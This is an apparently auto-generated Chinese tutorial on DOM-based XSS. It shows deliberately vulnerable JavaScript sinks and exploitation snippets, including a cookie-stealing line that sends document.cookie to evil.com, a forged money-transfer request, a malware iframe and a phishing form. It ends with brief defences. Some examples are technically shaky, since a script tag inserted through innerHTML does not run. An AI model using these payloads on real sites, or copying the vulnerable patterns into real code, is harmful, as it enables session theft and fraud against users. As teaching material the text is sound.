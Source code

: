 # DOM型XSS高级利用的攻击技术

## 引言

DOM型XSS（Cross-Site Scripting）是一种基于客户端的安全漏洞，攻击者通过操纵DOM（Document Object Model）来注入恶意脚本，从而在用户浏览器中执行任意代码。与传统的反射型和存储型XSS不同，DOM型XSS的漏洞存在于客户端代码中，不依赖于服务器端的响应。本文将详细探讨DOM型XSS高级利用的常见攻击手法和利用方式。

## 1. DOM型XSS的基本原理

DOM型XSS的漏洞通常发生在JavaScript代码中，当开发者使用不安全的DOM操作时，攻击者可以通过操纵URL参数、表单输入或其他客户端数据来注入恶意脚本。由于这些操作在客户端进行，服务器端的安全措施无法有效防御。

### 1.1 漏洞示例

```javascript
// 假设URL为：http://example.com/page.html#name=<script>alert('XSS')</script>
var name = window.location.hash.substring(1);
document.getElementById("output").innerHTML = "Hello, " + name;
```

在这个例子中，攻击者可以通过修改URL的`#`部分来注入恶意脚本，导致XSS攻击。

## 2. DOM型XSS高级利用的常见攻击手法

### 2.1 URL参数注入

攻击者通过操纵URL参数来注入恶意脚本。由于URL参数通常用于动态生成页面内容，不安全的处理方式会导致XSS漏洞。

#### 2.1.1 示例

```javascript
// 假设URL为：http://example.com/page.html?name=<script>alert('XSS')</script>
var params = new URLSearchParams(window.location.search);
var name = params.get('name');
document.getElementById("output").innerHTML = "Hello, " + name;
```

在这个例子中，攻击者可以通过修改`name`参数来注入恶意脚本。

### 2.2 表单输入注入

攻击者通过操纵表单输入来注入恶意脚本。表单输入通常用于用户提交数据，不安全的处理方式会导致XSS漏洞。

#### 2.2.1 示例

```javascript
// 假设表单输入为：<input type="text" id="input" value="<script>alert('XSS')</script>">
var input = document.getElementById("input").value;
document.getElementById("output").innerHTML = "You entered: " + input;
```

在这个例子中，攻击者可以通过修改表单输入来注入恶意脚本。

### 2.3 事件处理器注入

攻击者通过操纵事件处理器来注入恶意脚本。事件处理器通常用于响应用户操作，不安全的处理方式会导致XSS漏洞。

#### 2.3.1 示例

```javascript
// 假设URL为：http://example.com/page.html#onload=alert('XSS')
var event = window.location.hash.substring(1);
document.body.setAttribute("onload", event);
```

在这个例子中，攻击者可以通过修改`onload`事件处理器来注入恶意脚本。

### 2.4 动态脚本注入

攻击者通过操纵动态脚本加载来注入恶意脚本。动态脚本加载通常用于异步加载外部资源，不安全的处理方式会导致XSS漏洞。

#### 2.4.1 示例

```javascript
// 假设URL为：http://example.com/page.html#src=http://evil.com/malicious.js
var src = window.location.hash.substring(1);
var script = document.createElement("script");
script.src = src;
document.body.appendChild(script);
```

在这个例子中，攻击者可以通过修改`src`参数来加载恶意脚本。

### 2.5 JSON注入

攻击者通过操纵JSON数据来注入恶意脚本。JSON数据通常用于前后端数据交换，不安全的处理方式会导致XSS漏洞。

#### 2.5.1 示例

```javascript
// 假设JSON数据为：{"name": "<script>alert('XSS')</script>"}
var json = '{"name": "<script>alert(\'XSS\')</script>"}';
var data = JSON.parse(json);
document.getElementById("output").innerHTML = "Hello, " + data.name;
```

在这个例子中，攻击者可以通过修改JSON数据来注入恶意脚本。

## 3. DOM型XSS高级利用的利用方式

### 3.1 窃取用户信息

攻击者可以通过XSS漏洞窃取用户的敏感信息，如Cookie、会话令牌、个人数据等。

#### 3.1.1 示例

```javascript
var cookie = document.cookie;
var img = new Image();
img.src = "http://evil.com/steal?data=" + encodeURIComponent(cookie);
```

在这个例子中，攻击者可以通过XSS漏洞将用户的Cookie发送到恶意服务器。

### 3.2 劫持用户会话

攻击者可以通过XSS漏洞劫持用户的会话，冒充用户执行操作。

#### 3.2.1 示例

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://example.com/transfer", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("amount=1000&to=attacker");
```

在这个例子中，攻击者可以通过XSS漏洞冒充用户执行转账操作。

### 3.3 传播恶意软件

攻击者可以通过XSS漏洞传播恶意软件，如勒索软件、木马等。

#### 3.3.1 示例

```javascript
var iframe = document.createElement("iframe");
iframe.src = "http://evil.com/malware";
document.body.appendChild(iframe);
```

在这个例子中，攻击者可以通过XSS漏洞加载恶意软件。

### 3.4 钓鱼攻击

攻击者可以通过XSS漏洞进行钓鱼攻击，诱骗用户输入敏感信息。

#### 3.4.1 示例

```javascript
var form = document.createElement("form");
form.action = "http://evil.com/phish";
form.method = "POST";
var input = document.createElement("input");
input.type = "text";
input.name = "username";
form.appendChild(input);
document.body.appendChild(form);
form.submit();
```

在这个例子中，攻击者可以通过XSS漏洞诱骗用户输入用户名。

### 3.5 破坏页面内容

攻击者可以通过XSS漏洞破坏页面内容，影响用户体验。

#### 3.5.1 示例

```javascript
document.body.innerHTML = "<h1>This page has been hacked!</h1>";
```

在这个例子中，攻击者可以通过XSS漏洞破坏页面内容。

## 4. 防御措施

### 4.1 输入验证

对所有用户输入进行严格的验证，确保输入数据符合预期格式。

### 4.2 输出编码

对所有输出数据进行编码，防止恶意脚本注入。

### 4.3 使用安全的DOM操作

避免使用不安全的DOM操作，如`innerHTML`、`document.write`等。

### 4.4 内容安全策略（CSP）

使用内容安全策略（CSP）限制页面加载的外部资源，防止恶意脚本注入。

### 4.5 定期安全审计

定期进行安全审计，发现并修复潜在的安全漏洞。

## 结论

DOM型XSS是一种基于客户端的安全漏洞，攻击者通过操纵DOM来注入恶意脚本，从而在用户浏览器中执行任意代码。通过了解DOM型XSS高级利用的常见攻击手法和利用方式，开发者可以采取有效的防御措施，保护Web应用免受XSS攻击。

---

*文档生成时间: 2025-03-11 14:10:56*






















